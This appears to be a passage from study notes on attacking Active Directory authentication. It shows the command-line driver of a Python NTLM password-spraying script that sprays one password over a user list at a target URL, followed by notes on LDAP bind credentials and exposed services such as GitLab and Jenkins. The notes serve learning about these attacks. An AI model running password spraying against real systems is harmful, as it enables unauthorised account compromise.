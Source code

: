 ```
    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```

- Syntax-:

![image](https://github.com/user-attachments/assets/52714f8e-8a3a-434a-94cf-681784bf70de)

### LDAP Bind Credentials

- LDAP auth is similar to NTLM AYTH,the application directly verifies the user's crenetials.The application has a set of creds that it uses to verify the AD user's creds.Although, non-microsoft applications that integrates wuth AD uses it. e.g
 - Gitlab
 - Jenkins
 - Custom-developed web applications
 - Printers
 - Vpns

- If this services are exposed to the internet,the same attacks leveraged on NTLM can be applied.Although, it opens up an additional attack to to grab the credentials to gain authenticated access to AD.

- Authentication process

![image](https://github.com/user-attachments/assets/f13bbc4b-c220-4018-9115-d3840e6b9590)

